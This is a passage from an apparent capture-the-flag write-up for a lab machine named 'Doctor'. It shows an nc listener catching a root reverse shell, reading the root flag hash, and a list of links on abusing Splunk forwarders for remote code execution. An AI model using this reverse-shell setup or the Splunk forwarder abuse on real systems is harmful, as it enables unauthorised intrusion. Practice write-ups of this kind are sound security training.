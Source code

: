 ```

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!

```

In our listener we get a shell as root, and we can grab the root flag:

```
└─$ nc -nvlp 7777                                                                                             1 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:47330.
bash: cannot set terminal process group (1138): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# cat /root/root.txt
cat /root/root.txt
a885d5e9579e2d3585a7e598bd14bf5b
root@doctor:/# 
```

## Resources

The following page contains a very useful splunk architecture diagram:

{% embed url="https://www.learnsplunk.com/splunk-troubleshooting.html" %}

Abusing splunk forwarders:

{% embed url="https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence" %}

Splunk Universal Forwarder Hijacking:

{% embed url="https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2" %}

{% embed url="https://github.com/airman604/splunk_whisperer" %}

Weaponizing splunk:

{% embed url="https://github.com/TBGSecurity/weaponize_splunk" %}

Splunk pentest cheat sheet:

{% embed url="https://github.com/burntoberoot/splunk_pentest_cheatsheet" %}

The following page is a good introduction on how to build a Flask based webapp:

{% embed url="https://opensource.com/article/18/4/flask" %}
